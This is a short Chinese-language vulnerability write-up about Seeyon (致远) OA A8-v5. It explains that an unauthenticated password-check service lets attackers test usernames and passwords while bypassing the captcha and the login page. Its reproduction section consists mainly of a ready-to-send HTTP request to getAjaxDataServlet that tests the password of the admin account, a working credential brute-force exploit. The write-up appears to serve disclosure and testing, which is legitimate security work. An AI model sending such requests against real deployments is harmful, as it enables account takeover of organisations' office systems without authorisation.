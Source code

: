 致远OA A8-v5 无视验证码撞库
===========================

一、漏洞简介
------------

致远A8-V5在设计时存在逻辑错误，用户修改密码时对原密码进行了验证，但是验证使用的服务存在未授权访问漏洞，系统对非合法请求的原密码验证功能进行回应，导致了无视验证码，无需login页面进行密码尝试

二、漏洞影响
------------

致远OA A8-v5

三、复现过程
------------

POST穷举用户和密码代码如下

    GET /seeyon/getAjaxDataServlet?S=ajaxOrgManager&M=isOldPasswordCorrect&CL=true&RVT=XML&P_1_String=admin&P_2_String=wy123456 HTTP/1.0

    Accept: */*

    Accept-Language: zh-cn

    Referer: http://www.0-sec.org/seeyon/individualManager.do?method=managerFrame

    requesttype: AJAX

    Content-Type: application/x-www-form-urlencoded

    Cookie: 

    User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko

    Host: www.0-sec.org

    DNT: 1

    Proxy-Connection: Keep-Alive

![](resource/致远OAA8-v5无视验证码撞库/media/rId24.shtml)
